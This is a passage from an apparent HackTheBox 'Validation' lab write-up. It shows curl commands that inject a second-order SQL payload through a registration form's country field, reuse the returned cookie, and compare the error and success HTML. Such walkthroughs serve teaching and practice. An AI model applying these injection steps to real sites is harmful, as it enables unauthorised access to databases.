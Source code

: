 The html I get back shows an error:

```html
<link href="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/css/bootstrap.min.css" rel="stylesheet" id="bootstrap-css">
<script src="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/js/bootstrap.min.js"></script>
<script src="//cdnjs.cloudflare.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>
<!------ Include the above in your HEAD tag ---------->

<div class="container"><h1 class="text-center m-5">Join the UHC - September Qualifiers</h1></div>
    <section class="bg-dark text-center p-5 mt-4">
    <div class="container p-5">
        <h1 class="text-white">Welcome pencer3</h1>
        <h3 class="text-white">Other Players In Belgium'</h3>
        <br />
        <b>Fatal error</b>:  Uncaught Error: Call to a member function fetch_assoc() on bool in /var/www/html/account.php:33
        Stack trace:
        #0 {main} thrown in <b>/var/www/html/account.php</b> on line <b>33</b><br />
```

This is interesting, let's try a classic SQLi technique using dashes at the end to indicate comments:

```text
┌──(root💀kali)-[~/htb/validation]
└─# curl -v -d "username=pencer5&country=Belgium' -- -" http://10.10.11.116             
<SNIP>
```

Take the new cookie and send to the account.php page:

```text
┌──(root💀kali)-[~/htb/validation]
└─# curl -v --cookie "user=f85fdf23594083dac6653910d2fa222d" http://10.10.11.116/account.php
<SNIP>
```

This time there is no error:

```html
<div class="container"><h1 class="text-center m-5">Join the UHC - September Qualifiers</h1></div>
    <section class="bg-dark text-center p-5 mt-4">
        <div class="container p-5">
            <h1 class="text-white">Welcome pencer5</h1>
            <h3 class="text-white">Other Players In Belgium' -- -</h3>
            <li class='text-white'>pencer1</li>
            <li class='text-white'>pencer2</li>
        </div>
    </section>
</div>
```

Excellent. We've found our next steps. This technique is called second order SQLi because the web page itself isn't directly vulnerable, but the backend SQL code behind it is. So first we need to know if we can reflect our output on to the page:
